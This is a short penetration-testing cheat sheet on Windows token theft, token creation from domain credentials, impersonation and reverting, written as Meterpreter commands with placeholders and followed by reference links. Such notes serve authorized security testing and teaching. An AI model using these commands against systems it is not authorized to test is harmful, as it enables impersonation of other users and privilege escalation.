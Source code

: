 # Metasploit

## 01 - Steal Token

```
meterpreter > steal_token <pid>
```

Enumerate current user and process identifier.

```
meterpreter > getuid

meterpreter > getpid
```

Drop token to revert back to original self.

```
meterpreter > drop_token
```

## 02 - Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain> username=<username> password=<password>
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 03 - Token Impersonation

List available usernames as delegation tokens to impersonate.

```
meterpreter > list_tokens -u

meterpreter > impersonate_token "<DOMAIN>\<username>"
```

List available groups as delegation tokens to impersonate.

```
meterpreter > list_tokens -g
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 04 - Revert Token

Revert back to original privileges.

```
meterpreter > rev2self
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

### Pentest Lab

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

### NCCGroup

- [NCCGroup: Demystifying Cobalt Strike’s "make_token" Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

### DMCXBlue

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

### Exploit Database

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)